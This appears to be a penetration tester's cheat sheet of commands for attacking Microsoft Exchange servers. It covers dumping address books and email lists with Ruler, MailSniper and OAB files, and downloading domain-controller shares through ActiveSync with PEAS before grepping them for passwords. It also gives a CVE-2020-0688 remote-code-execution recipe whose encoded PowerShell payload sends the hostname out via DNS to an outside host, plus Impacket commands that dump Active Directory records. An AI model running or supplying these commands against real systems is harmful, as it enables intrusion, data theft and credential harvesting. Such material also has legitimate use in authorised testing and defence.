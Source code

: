 # Exchange

- [https://exchangeserverversions.blogspot.com/](https://exchangeserverversions.blogspot.com/)
- [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)

![Pentesting Exchange Mindmap](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/Pentesting_MS_Exchange_Server_on_the_Perimeter.png)




## GAL



### Ruler

```
$ ./ruler -k -d megacorp.com -u snovvcrash -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose abk dump -o gal.txt
```



### MailSniper

```
PS > Get-GlobalAddressList -ExchHostname mx.megacorp.com -UserName MEGACORP\snovvcrash -Password 'Passw0rd!' -OutFile gal.txt
```



### OAB

Search for `<OABUrl>` node using Burp:

```
POST /autodiscover/autodiscover.xml HTTP/1.1
Host: mx.megacorp.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Authorization: Basic TUVHQUNPUlBcc25vdnZjcmFzaDpQYXNzdzByZCEK
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 350

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>snovvcrash@megacorp.com</EMailAddress>
      <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

Or with a Python [script](https://gist.github.com/snovvcrash/4e76aaf2a8750922f546eed81aa51438):

```
$ ./oaburl.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -e 'exists@megacorp.com'
[*] Authenticated users's SID (X-BackEndCookie): S-1-5-21-3167813660-1240564177-918740779-3102
[+] DisplayName: Sam Freeside
[+] Server: 00ff00ff-00ff-00ff-00ff-00ff00ff00ff@megacorp.com
[+] AD: dc01.megacorp.com
[+] OABUrl: https://mx.megacorp.com/OAB/<OABUrl>/
```

Get `oab.xml` and then `oab.lzx`:

```
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.com/OAB/<OABUrl>/oab.xml > oab.xml
$ cat oab.xml | grep '.lzx' | grep data
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.com/OAB/<OABUrl>/<LZXUrl> > oab.lzx
```

Install libmspack:

```
$ git clone https://github.com/kyz/libmspack ~/tools/libmspack && cd ~/tools/libmspack/libmspack
$ sudo apt install autoconf automake libtool -y
$ ./rebuild.sh && ./configure && make && cd -
```

Parse `oab.lzx` into `oab.txt` and extract emails from `oab.txt` with a regexp:

```
$ ~/tools/libmspack/libmspack/examples/oabextract oab.lzx oab.txt
$ strings oab.txt | egrep -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}" | sort -u > emails.txt
```




## ActiveSync



### PEAS

* [https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [https://github.com/FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [https://github.com/snovvcrash/peas](https://github.com/snovvcrash/peas)

Install:

```
$ git clone https://github.com/snovvcrash/peas ~/tools/peas-m && cd ~/tools/peas-m
$ python3 -m virtualenv --python=/usr/bin/python venv && source venv/bin/activate
(venv) $ pip install --upgrade 'setuptools<45.0.0'
(venv) $ pip install -r requirements.txt
```

Run:

```
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --check
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01\SYSVOL\megacorp.com'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt' -o file.txt
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\share\' [--pattern xml,ini] [--download]
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --brute-unc [--prefix srv]
```



### How-To

1\. Use Nmap `http-ntlm-info` to get NetBIOS domain name and Exchange hostname: hunting for hostname pattern prefix if there is one.

2\. Locate DC (guess it trying hostname pattern prefix) and mirror `\\DC01\SYSVOL\megacorp.local\` share with `--crawl-unc` function:

```
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\SYSVOL\megacorp.com\' --download
```

3\. Find, xargs and grep for keywords in files: `password`, NetBIOS domain name (for additional account names), hostname pattern prefix (for additional hosts/shares):

```
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i -e password -e pass
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <DOMAIN_NETBIOS_NAME>
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <PREFIX>
```

4\. (optional) Brute other share names:

```
$ python -m peas --brute-unc -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com [--prefix srv]
```




## CVE-2020-0688

* [https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys](https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
* [https://github.com/pwntester/ysoserial.net/releases](https://github.com/pwntester/ysoserial.net/releases)
* [https://github.com/MrTiz9/CVE-2020-0688](https://github.com/MrTiz9/CVE-2020-0688)

```
Get ViewStateUserKey: Browser > F12 > Storage > ASP.NET_SessionId
Get ViewStateGenerator: Browser > F12 > Console > document.getElementById("__VIEWSTATEGENERATOR").value
PS > [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$name = hostname;nslookup "$name.0000000000ffffffffff.d.zhack.ca"'))
PS > .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell -exec bypass -enc <BASE64_CMD>" --validationalg "SHA1" --validationkey "CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --viewstateuserkey "<VIEWSTATE>" --generator "<GENERATOR>" --islegacy --isdebug
https://mx.megacorp.com/ecp/default.aspx?__VIEWSTATEGENERATOR=<GENERATOR>&__VIEWSTATE=<VIEWSTATE>
```




## NSPI

* [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
* [https://github.com/ptswarm/impacket](https://github.com/ptswarm/impacket)

* `>= Impacket v0.9.22.dev1+20200819.170651.b5fa089b`

List Address Books and count entities in every one of them:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi list-tables -count
```

Dump any specified Address Book by its name or GUID:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dump-tables -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type EXTENDED -output-file gal.txt
$ cat gal.txt | grep 'mail,' | sort -u | awk -F' ' '{print $3}' > emails.txt
```

Return AD objects by their GUIDs:

```
PS > (Get-ADuser -Identity snovvcrash).ObjectGUID
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi guid-known -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type FULL
```

Dump all AD records via requesting DNTs:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dnt-lookup -lookup-type EXTENDED -start-dnt 0 -stop-dnt 500000 -output-file dnt-dump.txt
```
